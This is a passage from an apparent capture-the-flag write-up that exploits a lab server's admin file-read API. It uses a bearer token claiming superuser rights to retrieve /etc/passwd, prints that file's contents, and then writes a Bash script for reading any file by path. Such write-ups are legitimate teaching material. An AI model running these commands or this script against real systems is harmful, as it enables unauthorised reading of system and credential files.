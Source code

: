 I can copy that to a terminal and remove some unneeded bits:

    
    
    oxdf@hacky$ curl http://10.10.11.162/api/v1/admin/file/L2V0Yy9wYXNzd2Q -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1In0.NzuBABYGGm_bMA51kmwrBTIXTaUA4OTcYBEmqprF5vM'
    {"file":"root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:106::/nonexistent:/usr/sbin/nologin\nsyslog:x:104:110::/home/syslog:/usr/sbin/nologin\n_apt:x:105:65534::/nonexistent:/usr/sbin/nologin\ntss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false\nuuidd:x:107:112::/run/uuidd:/usr/sbin/nologin\ntcpdump:x:108:113::/nonexistent:/usr/sbin/nologin\npollinate:x:110:1::/var/cache/pollinate:/bin/false\nusbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\nsshd:x:112:65534::/run/sshd:/usr/sbin/nologin\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nhtb:x:1000:1000:htb:/home/htb:/bin/bash\nlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false\n"}
    

Pipping it to `jq -r '.file'` will select the file element and raw print it:

    
    
    oxdf@hacky$ curl -s http://10.10.11.162/api/v1/admin/file/L2V0Yy9wYXNzd2Q -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1In0.NzuBABYGGm_bMA51kmwrBTIXTaUA4OTcYBEmqprF5vM' | jq -r '.file'
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    ...[snip]...
    

Putting this all together, I’ll write a simple Bash script that will read a
file passed as an argument:

    
    
    #!/bin/bash
    
    TOKEN=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1In0.NzuBABYGGm_bMA51kmwrBTIXTaUA4OTcYBEmqprF5vM
    FN=$(echo -n $1 | base64 | tr '/+' '_-' | tr -d '=')
    
    curl -s "http://10.10.11.162/api/v1/admin/file/$FN" -H "Authorization: Bearer $TOKEN" | jq -r '.file'
    